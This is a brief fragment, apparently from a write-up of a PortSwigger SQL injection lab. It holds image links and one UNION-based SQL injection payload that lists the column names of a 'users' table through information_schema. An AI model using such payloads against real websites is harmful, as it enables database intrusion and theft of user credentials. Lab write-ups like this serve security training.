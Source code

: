 ![](/assets/img/ps-writeup-sqli/ps-lab9_8.png)

```sql
' union select NULL,column_name from information_schema.columns where table_schema='public' and table_name='users'--
```
